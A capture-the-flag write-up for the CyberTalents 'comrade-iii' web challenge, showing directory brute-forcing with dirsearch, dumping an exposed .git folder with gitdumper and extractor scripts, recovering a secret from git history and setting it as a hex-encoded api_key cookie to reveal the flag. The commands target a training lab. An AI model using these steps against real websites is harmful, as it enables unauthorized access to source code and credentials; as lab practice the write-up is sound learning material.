



# Solve comrade-iii
#### https://cybertalents.com/challenges/web/comrade-iii


### Run Directory bruteforce
`dirsearch -u http://wcamxwl32pue3e6mk873o1muw3y0j6zqdkgxu639-web.cybertalentslabs.com -x 403,404`
*you can find the output in [Directories.txt](Directories.txt)*


### Download all git files with gettools
1. dump all git files  
```bash
./gitdumper.sh http://wcamxwl32pue3e6mk873o1muw3y0j6zqdkgxu639-web.cybertalentslabs.com/.git/ /home/m_1337/CyberTalents/Web/comrade-iii/git
```
2. extract source files 
```bash
./extractor.sh /home/m_1337/CyberTalents/Web/comrade-iii/git /home/m_1337/CyberTalents/Web/comrade-iii/git
```

### Analyzing the source code
```php 
<?php
include('./access.php');
include('./index.php');
if($_COOKIE['api_key'] == $apikey) 
echo "Flag: $flag";
```
We need API key to view the flag
### Check git status
`git status`


Notice that api.php had been **removed**

### Check changes 
`git show`

So the api key = access 

access from [contact_process](Dumpedfiles/1/contact_process.php) `this_is_top_secret`
Convert it to hex `746869735f69735f746f705f736563726574`
Add it to the browser cookie with Name `api_key`



>Find More on ==> github.com/MedhatHassan 
